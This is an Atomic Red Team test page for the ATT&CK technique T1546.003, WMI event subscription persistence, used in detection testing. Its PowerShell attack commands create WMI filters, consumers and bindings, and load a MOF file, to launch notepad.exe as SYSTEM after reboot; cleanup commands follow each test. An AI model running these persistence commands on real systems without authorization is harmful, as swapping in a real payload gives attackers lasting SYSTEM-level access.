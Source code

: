 # T1546.003 - Event Triggered Execution: Windows Management Instrumentation Event Subscription

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/003)

<blockquote>Adversaries may establish persistence and elevate privileges by executing malicious content triggered by a Windows Management Instrumentation (WMI) event subscription. WMI can be used to install event filters, providers, consumers, and bindings that execute code when a defined event occurs. Examples of events that may be subscribed to are the wall clock time, user loging, or the computer's uptime.(Citation: Mandiant M-Trends 2015)

Adversaries may use the capabilities of WMI to subscribe to an event and execute arbitrary code when that event occurs, providing persistence on a system.(Citation: FireEye WMI SANS 2015)(Citation: FireEye WMI 2015) Adversaries may also compile WMI scripts into Windows Management Object (MOF) files (.mof extension) that can be used to create a malicious subscription.(Citation: Dell WMI Persistence)(Citation: Microsoft MOF May 2018)

WMI subscription execution is proxied by the WMI Provider Host process (WmiPrvSe.exe) and thus may result in elevated SYSTEM privileges.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Persistence via WMI Event Subscription - CommandLineEventConsumer](#atomic-test-1---persistence-via-wmi-event-subscription---commandlineeventconsumer)

- [Atomic Test #2 - Persistence via WMI Event Subscription - ActiveScriptEventConsumer](#atomic-test-2---persistence-via-wmi-event-subscription---activescripteventconsumer)

- [Atomic Test #3 - Windows MOFComp.exe Load MOF File](#atomic-test-3---windows-mofcompexe-load-mof-file)

<br/>

## Atomic Test #1 - Persistence via WMI Event Subscription - CommandLineEventConsumer

Run from an administrator powershell window. After running, reboot the victim machine.
After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.

Code references

https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af

https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

**Supported Platforms:** Windows

**auto_generated_guid:** 3c64f177-28e2-49eb-a799-d767b24dd1e0

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example';
                CommandLineTemplate="$($Env:SystemRoot)\System32\notepad.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

#### Cleanup Commands:

```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```

<br/>
<br/>

## Atomic Test #2 - Persistence via WMI Event Subscription - ActiveScriptEventConsumer

Run from an administrator powershell window. After running, reboot the victim machine.
After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.

Code references

https://gist.github.com/mgreen27/ef726db0baac5623dc7f76bfa0fc494c

**Supported Platforms:** Windows

**auto_generated_guid:** fecd0dfd-fb55-45fa-a10b-6250272d0832

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example';
                ScriptingEngine='VBScript';
                ScriptText='
                Set objws = CreateObject("Wscript.Shell")
                objws.Run "notepad.exe", 0, True
                '}
$Consumer=Set-WmiInstance -Namespace "root\subscription" -Class ActiveScriptEventConsumer -Arguments $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = $Filter;
Consumer = $Consumer;
}
$FilterToConsumerBinding = Set-WmiInstance -Namespace 'root/subscription' -Class '__FilterToConsumerBinding' -Arguments $FilterToConsumerArgs
```

#### Cleanup Commands:

```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class ActiveScriptEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```

<br/>
<br/>

## Atomic Test #3 - Windows MOFComp.exe Load MOF File

The following Atomic will utilize MOFComp.exe to load a local MOF file.
The Managed Object Format (MOF) compiler parses a file containing MOF statements and adds the classes and class instances defined in the file to the WMI repository.
To query for the class: gwmi \_\_eventfilter -namespace root\subscription
A successful execution will add the class to WMI root namespace.
Reference: https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/ and https://thedfirreport.com/2022/07/11/select-xmrig-from-sqlserver/.

**Supported Platforms:** Windows

**auto_generated_guid:** 29786d7e-8916-4de6-9c55-be7b093b2706

#### Inputs:

| Name         | Description             | Type   | Default Value                                               |
| ------------ | ----------------------- | ------ | ----------------------------------------------------------- |
| mofcomp_path | Location of mofcomp.exe | string | c:&#92;windows&#92;system32&#92;wbem&#92;mofcomp.exe        |
| mof_file     | Local location MOF file | string | PathToAtomicsFolder&#92;T1546.003&#92;src&#92;T1546.003.mof |

#### Attack Commands: Run with `powershell`!

```powershell
#{mofcomp_path} "#{mof_file}"
```

#### Cleanup Commands:

```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam_consumer'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam_filter'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```

#### Dependencies: Run with `powershell`!

##### Description: MofComp.exe must exist on disk at specified location (#{mofcomp_path})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{mofcomp_path}") { exit 0} else { exit 1}
```

##### Get Prereq Commands:

```powershell
Validate MOFComp.exe is on disk somewhere and update input argument.
```

##### Description: MofComp.exe must exist on disk at specified location (#{mof_file})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{mof_file}") { exit 0} else { exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{mof_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.003/src/T1546.003.mof" -OutFile "#{mof_file}"
```

<br/>
